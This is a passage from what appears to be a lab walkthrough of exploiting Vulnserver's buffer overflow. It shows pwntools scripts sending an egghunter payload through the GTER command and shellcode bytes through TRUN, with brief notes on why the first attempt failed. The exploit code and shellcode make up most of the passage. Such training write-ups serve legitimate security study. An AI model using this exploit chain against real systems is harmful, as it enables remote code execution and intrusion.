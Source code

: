 ```
payload += shellcode

r.readline()  
r.sendline(payload)  
r.readline()

egghunter = "\x66\x81\xca\xff\x0f\x42\x52\x6a\x02\x58\xcd\x2e\x3c\x05\x5a\x74"  
egghunter += "\xef\xb8\x61\x72\x7a\x79\x8b\xfa\xaf\x75\xea\xaf\x75\xe7\xff\xe7"

payload = ""  
payload += "GTER "  
payload += "A"*(151 - 50 + 2 + 4) # -50 for egghunter buffer, +4 for JMP ESP buffer  
payload += egghunter  
payload += "B"*(48 - 32 - 4) # 48 (buffer for egghunter - egghunter length), -4 for JMP ESP alignment  
payload += p32(0x625011af) # JMP ESP  
payload += "\xeb\xce\x90\x90" # JMP -50

r.sendline(payload)  
r.close()
```

![](https://cdn-images-1.medium.com/max/800/1*PirY0RhofXVseNUv_s20bA.png){: .align-center}

Nothing happened after running the exploit. It seems that there is an issue with our exploit script.

Upon reviewing the exploit script, I remembered that we cannot use `GDOG` coomand for our shellcode injection.

![](https://cdn-images-1.medium.com/max/800/1*P4FfvWanG9p9n4Zp3n34Hw.png){: .align-center}

During the execution of GTER command, the contents of `GdogBuf` is cleared using `memset().`

Upon testing different commands, the `TRUN` command was able to inject our shellcode.

Let’s rewrite our exploit script.

```
from pwn import *  
import time

host = '192.168.136.241'  
port = 9999

r = remote(host, port)

shellcode =  b""  
shellcode += b"\xba\x36\xdb\xa5\x76\xd9\xc4\xd9\x74\x24\xf4"  
shellcode += b"\x58\x2b\xc9\xb1\x52\x83\xc0\x04\x31\x50\x0e"  
shellcode += b"\x03\x66\xd5\x47\x83\x7a\x01\x05\x6c\x82\xd2"  
shellcode += b"\x6a\xe4\x67\xe3\xaa\x92\xec\x54\x1b\xd0\xa0"  
shellcode += b"\x58\xd0\xb4\x50\xea\x94\x10\x57\x5b\x12\x47"  
shellcode += b"\x56\x5c\x0f\xbb\xf9\xde\x52\xe8\xd9\xdf\x9c"  
shellcode += b"\xfd\x18\x27\xc0\x0c\x48\xf0\x8e\xa3\x7c\x75"  
shellcode += b"\xda\x7f\xf7\xc5\xca\x07\xe4\x9e\xed\x26\xbb"  
shellcode += b"\x95\xb7\xe8\x3a\x79\xcc\xa0\x24\x9e\xe9\x7b"  
shellcode += b"\xdf\x54\x85\x7d\x09\xa5\x66\xd1\x74\x09\x95"  
shellcode += b"\x2b\xb1\xae\x46\x5e\xcb\xcc\xfb\x59\x08\xae"  
shellcode += b"\x27\xef\x8a\x08\xa3\x57\x76\xa8\x60\x01\xfd"  
shellcode += b"\xa6\xcd\x45\x59\xab\xd0\x8a\xd2\xd7\x59\x2d"  
shellcode += b"\x34\x5e\x19\x0a\x90\x3a\xf9\x33\x81\xe6\xac"  
shellcode += b"\x4c\xd1\x48\x10\xe9\x9a\x65\x45\x80\xc1\xe1"  
shellcode += b"\xaa\xa9\xf9\xf1\xa4\xba\x8a\xc3\x6b\x11\x04"  
shellcode += b"\x68\xe3\xbf\xd3\x8f\xde\x78\x4b\x6e\xe1\x78"  
shellcode += b"\x42\xb5\xb5\x28\xfc\x1c\xb6\xa2\xfc\xa1\x63"  
```